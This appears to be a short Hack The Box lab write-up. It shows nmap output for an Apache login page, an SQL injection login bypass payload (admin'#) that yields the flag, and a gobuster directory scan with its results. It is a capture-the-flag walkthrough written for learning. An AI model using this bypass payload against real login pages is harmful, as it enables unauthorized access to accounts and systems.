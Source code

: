 What is the 2021 OWASP Top 10 classification for this vulnerability?
https://owasp.org/Top10/
`A03:2021-Injection`
Apache httpd 2.4.38 ((Debian))

10.129.153.150

We have a web page being hosted on port 80 with a login page

```php
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)
```

Lets attempt an SQL injection for admin without knowing the password

```php
admin'#
```

We successfully log in and are congratulated

```php
Congratulations!
Your flag is: e3d0796d002a446c0e622226f42e9672
```

We have rooted this machine.
I'm running `gobuster` just because i'm curious if there was another entry point at all

```php
gobuster dir -u http://10.129.4.165 -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-error -o gobuster.txt
```

Didn't find anything useful but it do find it very interesting just what gets hosted on this things and how HTB sets up its web labs. 

```php
/images               (Status: 301) [Size: 313] [--> http://10.129.4.165/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.4.165/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.129.4.165/js/]
/vendor               (Status: 301) [Size: 313] [--> http://10.129.4.165/vendor/]
/fonts                (Status: 301) [Size: 312] [--> http://10.129.4.165/fonts/]
/server-status        (Status: 403) [Size: 277]
```

